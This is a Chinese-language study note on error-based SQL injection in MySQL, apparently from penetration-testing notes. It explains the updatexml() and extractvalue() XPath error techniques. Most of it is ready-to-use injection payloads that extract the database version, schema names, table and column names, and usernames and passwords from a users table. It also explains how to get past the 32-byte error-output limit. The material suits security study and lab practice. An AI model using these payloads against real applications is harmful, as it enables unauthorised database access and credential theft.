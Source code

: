 判断方式和联合查询注入一样，不同在于发现存在报错信息，所以可以使用报错注入。类似于下方的报错信息：

![image-20231127215426197](../../../Git/NOTE/渗透学习笔记/SQL注入/image-20231127215426197.png)

##### 2、错误回显利用

###### 2.1xpath报错注入

当这两个函数在执行时，如果出现xml文档路径错误就会产生报错。

* updatexml()函数

  例如： select * from test where ide = 1 and (updatexml(1,0x7e,3)); 由于0x7e是~，不属于xpath语法格式，因此报出xpath语法错误。

  ```css
  updatexml(xml_doument,XPath_string,new_value)
  第一个参数：XML_document是String格式					   #XML文档对象的名称
  第二个参数：XPath_string (Xpath格式的字符串)。			#需要更新的位置XPATH路径，当格式出现错误，MySQL爆出														  xpath语法错误（xpath syntax）
  第三个参数：new_value，String格式，替换查找到的符合条件的数据   				#更新后的内容
  ```

  构造payload去触发Xpath语法错误，0x7e->'~' 来触发

  ```sql
  ?id=1' and updatexml(1,concat(0x7e,version()),1) --+      #查询版本
  ?id=1'and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1)),0)--+  										#查询数据库名
  
  ?id=1' and updatexml(1,concat(0x7e,(select group_concat(schema_name)from information_schema.schemata),0x7e),1) --+      #   爆所有数据库
  
  ?id=1'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='mysql'limit 0,1)),0)--+                #查询表名
  ```

  updatexml函数最多输出==32==个字节，~的存在占据一位，密文只有31位，可以使用substring（）函数截断

  ```css
  substring(xx,xx)
  一个是要截取的内容，一个是开始的位数
  ```

* extractvalue()函数

  跟updatexml()函数类似，只是不需要第三个参数

  ```sql
  1' and extractvalue(1,concat(0x5c,version(),0x5c))#    爆版本
  1' and extractvalue(1,concat(0x5c,database(),0x5c))#   爆数据库
  
  1' and extractvalue(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c))#   爆表名
  
  1' and extractvalue(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x5c))# 爆字段名
   
  1' and extractvalue(1,concat(0x5c,(select password from (select password from users where username='admin1') b) ,0x5c))            # 爆字段内容该格式针对mysql数据库。
  
  1' and extractvalue(1,concat(0x5c,(select group_concat(username,password) from users),0x5c))                    										#爆字段内容。
  ```

